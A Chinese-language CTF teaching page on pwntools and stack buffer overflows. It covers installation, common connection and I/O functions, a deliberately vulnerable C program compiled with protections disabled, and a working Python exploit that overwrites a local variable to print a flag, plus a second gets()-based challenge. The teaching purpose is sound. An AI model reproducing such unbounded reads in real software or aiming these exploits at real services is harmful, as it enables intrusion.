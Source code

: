 # PWN
![pwn.png](pwn.png)
# 預先學習pwntools
### PWNTOOLS
- 官方說明
  - pwntools is a CTF framework and exploit development library. 
  - Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.
- [官方GITHUB網址](https://github.com/Gallopsled/pwntools)
- [官方教學pwntools-tutorial(英文版)](https://github.com/Gallopsled/pwntools-tutorial#readme)
- [官方使用手冊(英文版)](https://docs.pwntools.com/en/stable/)

### PWNTOOLS安裝(本課程提供的環境已經安裝好了)
#### 1.撰寫安裝SCRIPT: XXX.sh
```
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```
#### 2.執行: bash XXX.sh
```
root@kali:~# gedit pwntools_install.sh
root@kali:~# bash pwntools_install.sh 
```
```
一路yes到底
```
#### 3.查看各種參數 pwn -h
- [ pwn  Command Line Tools](https://docs.pwntools.com/en/latest/commandline.html#pwn)
```
usage: pwn [-h]
           {asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,
            phd,pwnstrip,scramble,shellcraft,template,unhex,update,version}
           ...

Pwntools Command-line Interface

positional arguments:
  {asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,phd,pwnstrip,scramble,
    shellcraft,template,unhex,update,version}
    asm                 Assemble shellcode into bytes    <=== 重要
    checksec            Check binary security settings   <=== 重要
    constgrep           Looking up constants from header files. Example:
                        constgrep -c freebsd -m ^PROT_ '3 + 4'
    cyclic              Cyclic pattern creator/finder    <=== 重要
    debug               Debug a binary in GDB
    disasm              Disassemble bytes into text format  <=== 重要
    disablenx           Disable NX for an ELF binary
    elfdiff             Compare two ELF files
    elfpatch            Patch an ELF file
    errno               Prints out error messages
    hex                 Hex-encodes data provided on the command line or stdin
    phd                 Pwnlib HexDump
    pwnstrip            Strip binaries for CTF usage
    scramble            Shellcode encoder
    shellcraft          Microwave shellcode -- Easy, fast and delicious
    template            Generate an exploit template
    unhex               Decodes hex-encoded data provided on the command line
                        or via stdin.
    update              Check for pwntools updates
    version             Pwntools version

optional arguments:
  -h, --help            show this help message and exit
```

#### pwntools 常用技術
- 載入pwntools套件 ==> from pwn import *  # 可將所有子模組和一些常用的系統函數庫導入
- 建立與程式連結(connection) 
  - 與遠端程式(使用remote())
    - conn = remote('ip_address', port_num)
    - conn = remote('173.4.5.1', 8888) 
  - 與本地端程式(使用process())==> conn = process('./pwn1')
- 接收資料 receive
  - recv(numb=1096, timeout=default)：接收指定位元組數的資料
  - recvall()：接收資料直到 EOF
  - recvline(keepends=True)：接收一行，可選擇是否保留行尾的 \n
  - recvlines(N):接收 N行輸出
  - recvrepeat(timeout=default)：接收資料直到 EOF(END of FILE) 或 timeout
  - recvuntil(delims, timeout=default)：接收資料直到 delims 出現
- 傳資料
  - send(data)：發送資料
  - sendline(data)：發送一行，預設會在行尾加 \n
  - sendlineafter(delims, 要送出的資料)：從 delims 出現後,將要送出的資料 傳送給程式
- 互動 ==> conn.interactive()
  - 可同時對遠端系統讀寫資料
  - 相當於回到 shell 模式進行互動
  - 在取得 shell 之後調用 
- [pwntools工具的使用](https://blog.csdn.net/A951860555/article/details/110990925)

# 範例學習
```c
#include"stdio.h"
#include"stdlib.h"

int main(){
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  
  int token = 1234;
  char key[16];

  printf("Billy left his key in the locked room.\n");
  printf("However, he forgot the token of the room.\n");
  printf("Do you know what's the key?");

  read(0, key, 40);

  if((int)token == 0xdeadbeef){
    printf("Door open. OwO\n");
    system("cat ./flag");
  }else{
    printf("Cannot open door. QwQ\n");
  }

  return 0;
}
```
- gcc -fno-stack-protector -z execstack pass.c -o pass -no-pie
- socat TCP-LISTEN:20000,fork EXEC:'./pass'

# exploit code
```python
from pwn import *

# r = process('./pass')

//r = remote('120.114.62.210',6125)
r = remote('localhost',20000)

payload = b'B'*28
r.sendline(payload+ p64(0xdeadbeef))

r.interactive()
```
![pwn1.png](pwn1.png)

![pwn3.png](pwn3.png)

![pwn4.png](pwn4.png)

![pwn5.png](pwn5.png)

![pwn6.png](pwn6.png)

![pwn7.png](pwn7.png)

![pwn8.png](pwn8.png)


# 第二題pwn
```c
#include"stdio.h"
#include"stdlib.h"

void Billyshouse(){
//  system("cat /home/ctf/flag");
    system("cat ./flag");
}

int main(){
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);

  char address[32];

  printf("Billy want to go home now.\n");
  printf("Do you know the address of his house ?");

  gets(address);

  return 0;
}

```
